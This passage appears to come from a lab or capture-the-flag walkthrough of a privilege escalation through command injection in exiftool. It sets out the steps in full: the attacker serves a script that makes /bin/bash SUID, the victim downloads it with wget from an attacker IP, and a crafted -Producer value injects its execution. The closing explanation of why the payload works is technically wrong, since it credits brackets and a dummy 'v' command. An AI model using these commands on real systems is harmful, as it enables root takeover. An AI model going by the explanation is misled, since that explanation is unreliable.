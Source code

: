 - Host:

```bash
cat test.sh

#!/bin/bash
chmod a+s /bin/bash

python -m http.server 80
```

- Victim:

```bash
cd /dev/shm
wget http://10.10.16.26/test.sh
chmod 700 test.sh
```

```bash
touch test
exiftool test

ExifTool Version Number         : 12.55
File Name                       : test
Directory                       : .
File Size                       : 0 bytes
File Modification Date/Time     : 2023:03:12 23:35:12+00:00
File Access Date/Time           : 2023:03:12 23:35:14+00:00
File Inode Change Date/Time     : 2023:03:12 23:35:14+00:00
File Permissions                : -rw-r--r--
Error                           : File is empty

```

```bash
exiftool -Producer="v[\$(/dev/shm/test.sh>&2)]" test
```

- The reason the brackets `[]` are necessary in the command `exiftool -Producer="v[\$(/dev/shm/test.sh>&2)]" test` is because they are used to prevent the shell from interpreting the `$(` and `)` characters as special characters.

- When you run a command in a Unix-based shell, the shell will interpret any special characters in the command before passing it to the command itself. In this case, the `$(` and `)` characters are special characters that are used to indicate command substitution. Whn the shell encounters these characters, it will execute the command inside the parentheses and replace the command substitution with the output of the command.

- In order for the `exiftool` command to execute the command inside the `$()` expression, it needs to have an executable command that can be executed by the shell. By adding the `v` character in front of the `$()` expression, a dummy command  is created `v` that can be executed by the shell and then passing the command substitution expression as an argument to that dummy command.

- So when you use the command `exiftool -Producer="v[\$(/dev/shm/test.sh>&2)]" test`, `exiftool` will first execute the dummy command `v` (which does nothing), and then pass the command substitution expression `[\$(/dev/shm/test.sh>&2)]` as an argument to the `v` command. The shell will then execute the command inside the parentheses and replace the command substitution with its output, which will be sent to the `v` command as an argument. Since the `v` command does nothing, the output of the command substitution will not be displayed or otherwise processed.
